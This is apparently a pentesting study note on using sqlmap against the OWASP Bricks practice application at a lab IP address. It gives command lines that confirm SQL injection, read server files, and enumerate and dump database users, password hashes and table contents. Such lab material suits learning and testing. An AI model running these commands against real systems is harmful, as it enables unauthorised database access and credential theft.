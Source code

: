 # SQLmap Enumeration

## Attacking SQLi using SQLmap

For attack follow the subsection [SQLmap attack examples](sqlmap-exploitation.md)

### Successful SQLi confirmation

* say the attack string is
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent`

![](../../.gitbook/assets/image%20%28130%29.png)

* If we have this above SQLi payload, then we could start enumerating the database. The SQLi payload is automatically stored and automatically associated with the target machine.

## SQLmap Read OS files

* Fetch any OS files given read permission
  * sqlmap -u [http://192.168.56.103/owaspbricks/login-1/](http://192.168.56.103/owaspbricks/login-1/) --file-read=/var/www/html/administrat/panel.php

## SQLmap database enumeration

* List all database users
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent --users`
* List all passwords for these database users
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent --users --passwords`
* List all databases present in SQL server
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent --dbs`
* List all tables present in a database named "bricks" 
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent -D bricks --tables`
* List all the columns present in a specific table "users" in a database "bricks"
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent -D bricks -T users --columns`
* Print contents of a table with only specific column
  * `sqlmap -u http://192.168.56.103/owaspbricks/login-1/ --forms --banner --random-agent -D bricks -T users -C name,password,email --dump`

## 

